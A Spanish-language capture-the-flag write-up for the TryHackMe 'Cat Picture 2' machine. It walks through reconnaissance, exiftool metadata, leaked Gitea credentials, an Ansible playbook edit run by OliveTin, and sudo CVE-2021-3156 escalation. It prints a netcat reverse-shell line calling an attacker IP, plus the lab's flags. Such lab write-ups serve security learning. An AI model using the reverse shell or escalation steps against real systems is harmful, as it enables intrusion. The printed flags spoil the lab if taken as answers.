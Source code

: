 ```yaml
---
title: Cat Picture 2
layout: post
image: 
    path: /assets/covers/tryhackme.png
autor: AreiaNight
tags: [catpicture2, writeup, tryhackme]
category: Pentesting
---
```


Vale, el día de hoy vamos a hacer la máquina Cat Picture 2, porque no sabía que existía la primera. Como sea, algo me dice que esto va a tener que ver con mensajes ocultos en imágenes y eso me emociona de cierta forma. Antes de nada, como siempre, empezamos con nuestro nmap de toda la vida para ver si hay puertos abiertos. 

Hay varios puertos abiertos, por ahora los que más me interesan como siempre son el 80 que por alguna razón tenemos dos, el 8080 y el 22. En el mismo nmap mostró algo interesante al momento de mandar los scripts básicos de reconocimiento y es que existe un directorio al que se puede acceder llamado /.git lo que quiere decir que hay un repositorio por ahí y quizá es dónde tenga que empezar. Una vez el plan listo, decidí ir a mi navegador para explorar más aquel directorio y... está forbbiden. Como sea, también se encontró un robots.txt así que al menos ahí si pude ingresar en dónde pude recopilar información interesante. 

![](/assets/post/Cat/1.png)

Mientras hacía eso, decidí entrar a la main page y pues no es nada muy elaborado, una simple página con gatitos. Sin embargo en la misma página nos dice con que está hosteada, con un servicio llamado Lychee 3.1 y también Nginx. Mientras exploraba los puertos encontré una sección que parecía ser un dashboard llamado OliveTin. Para mi suerte, tenía un enlace en la descripción justo a la documentación y ahí pude averiguar que es una simple aplicación para volver "fácil" la ejecución de comandos... ¡Ejecución de comandos! Podría ser una posible ruta de entrada. En este dashboard vi que podíamos hacer un pin y recordé que cuando hice una máquina de vulhub hace tiempo por ahí se podía mandar un comando para una shell.

PERO antes de hacer todo eso, vamos paso a paso. La máquina se llama Cat Picture 2, por ende (y a menos que no sea como al máquina de tr0ll), supongo que algo deben tener las fotos de los gatos. Así que bajé todas las imágenes y no les cambié el nombre en caso de que sea necesario para futuro o que ésta misma sea la posible frase para sacar información. Para analizar los metadatos tenemos varias herramientas, pero en este caso usaré exiftool que por cierto, para arch por alguna razón solo lo puedes correr como usuario sin privilegios. Después de sacar toda la información de las imágenes, en la última, algo me llamó la atención. Parece ser un directorio en el puerto 8080, por lo que no sería mala idea irse por ahí. 

![](/assets/post/Cat/2.png)

Una vez en dicho directorio, lo que nos recibe es un simple txt con información de lo más interesante. Entre los puertos hay uno muy especifico que te lleva a un servicio de git tea, al inicio de todo esto decidí registrarme para ver si encontraba algo interesante por ahí y solamente había una cosa, un usuario llamado samarium y ya. En este pequeño documento en txt no solo estaba el nombre de dicho usuario de nuevo, sino también la contraseña de éste junto con información del servicio de OliveTin que ya había mencionado anteriormente. 

```
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

![](/assets/post/Cat/3.png)

Una vez adentro tenemos nuestra primera flag que puede ser encontrada en el repositorio de éste mismo usuario. Al parecer tiene dicho repositorio privado, lo que explicaría porque no encontré nada interesante en mi primera exploración por el git.

>! Flag: 10d916eaea54bb5ebe36b59538146bb5

Con acceso al git del usuario, podemos ver que su único repositorio tiene el nombre de ansible, el nombre se me hizo familiar así que al regresar al olivetin, vi que es el mismo script que se ejecuta. Con esto en mente, supuse que podría editar el script que se corre simplemente modificando el script base para que se agregue una línea en dónde me pueda mandar una shell a mi equipo. Con el plan listo, fue tiempo de empezar a ejecutarlo. Primero leí un poco la documentación del olivetin para saber cómo modificar el file yml, con la información lista el código que decidí agregar fue este: 

```
shell: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.1.187 5500 >/tmp/f
```

Y con eso, tenemos acceso remoto a la máquina que queremos comprometer, además de tener la segunda flag:

>! Flag: 5e2cafbbf180351702651c09cd797920

![](/assets/post/Cat/4.png)

Con esto listo, solo nos falta una última flag, así que vamos a empezar a hacer pruebas y demás cositas para poder tener privilegios de root que es dónde supongo estará la siguiente flag. Mientras exploraba que sistema era, descubrí que el sudo es vulnerable, así que quizá pueda escalar por ahí. Antes que nada, necesito la contraseña de bismuth, pero después de explorar un buen rato no encontré nada relacionado que nos pueda dar una pista, decidí simplemente cambiar la contraseña. Algo que tiene linux es que no te pide que metas tu "anterior contraseña" así que con eso listo ya tenemos pleno acceso a la cuenta y, sobre todo, a usar el sudo con éste.  Ahora sí, tiempo de ver si el sudo es vulnerable a esta [[https://medium.com/mii-cybersec/privilege-escalation-cve-2021-3156-new-sudo-vulnerability-4f9e84a9f435|vulnerabilidad]]. 

![](/assets/post/Cat/5.png)

Una vez confirmado que, en efecto, el sudo es vulnerable, es tiempo de la escalada de privilegios. Para eso voy a recurrir a este [[https://github.com/blasty/CVE-2021-3156|exploit]] para automatizar todo. Corremos el script con un simple make para compilarlo, ejecutamos seleccionando nuestra versión de sudo vulnerable y listo, tenemos acceso a root. Ahora, solo debemos irnos al directorio /root y tendremos la flag.

>! Flag: 6d2a9f8f8174e86e27d565087a28a971

![](/assets/post/Cat/6.png)
